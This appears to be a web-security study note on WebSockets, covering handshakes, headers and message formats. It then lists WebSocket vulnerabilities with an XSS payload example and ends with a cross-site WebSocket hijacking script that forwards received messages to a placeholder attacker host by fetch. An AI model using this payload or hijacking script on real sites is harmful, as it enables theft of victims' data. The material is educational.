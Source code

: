 # WebSockets

WebSocket connections are long-lived HTTP initiations allowing bidirectional messaging. The connection stays open until a message is sent by the client or server. WebSocket is ideal for low-latency and server-triggered messages, such as real-time financial data feeds.

<details>

<summary>How are WebSocket connections established?</summary>

WebSocket connections are normally created using client-side JavaScript like the following:

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

The `wss` protocol establishes a WebSocket over an encrypted TLS connection, while the `ws` protocol uses an unencrypted connection.

To establish the connection, the browser and server perform a WebSocket handshake via HTTP. The browser sends a WebSocket handshake request like this:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

</details>

<details>

<summary>Headers</summary>

* The `Connection` and `Upgrade` headers in the request and response indicate that this is a WebSocket handshake.

- The `Sec-WebSocket-Version` request header specifies the WebSocket protocol version that the client wishes to use. This is typically 13.

* The `Sec-WebSocket-Key` request header contains a Base64-encoded random value, which should be randomly generated in each handshake request. This is use to prevent errors from caching proxies. (It is not like CSRF token...)

- The `Sec-WebSocket-Accept` response header contains a hash of the value submitted in the Sec-WebSocket-Key request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

</details>

<details>

<summary>What do WebSocket messages look like?</summary>

WebSocket messages can contain any content or data format

```javascript
ws.send("Peter Wiener");
```

It is common to use json

```json
{"user":"Hal Pline","content":"Hello"}
```

</details>

## <mark style="color:yellow;">Manipulating WebSocket connections</mark>

[https://portswigger.net/web-security/websockets#manipulating-websocket-connections](https://portswigger.net/web-security/websockets#manipulating-websocket-connections)

## <mark style="color:yellow;">WebSockets vulnerabilities</mark>

* If inputs are transmitted and processed server-side
  * Server-side attacks (SQLi, XXE, etc.)
* If attacker-controlled data is transmitted via WebSockets to other application users
  * Client-side attacks (XSS, etc.)
    * Example if the content of a message is transmitted to another user (via chat...)
    * `{"message":"<img src=1 onerror='alert(1)'>"}`
* Also blind vulnerabilities

## <mark style="color:yellow;">Cross-site WebSocket hijacking</mark>

An attacker can craft a malicious webpage on their domain, initiating a cross-site WebSocket connection to the susceptible application. (As CSRF, the websocket connection mustn't contain CSRF tokens)

* Perform unauthorized actions masquerading as the victim user (like CSRF)
* Retrieve sensitive data that the user can access.
* Waiting for incoming messages to arrive containing sensitive data.

Exploitation code to open a websocket connection to send messages on your server

```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
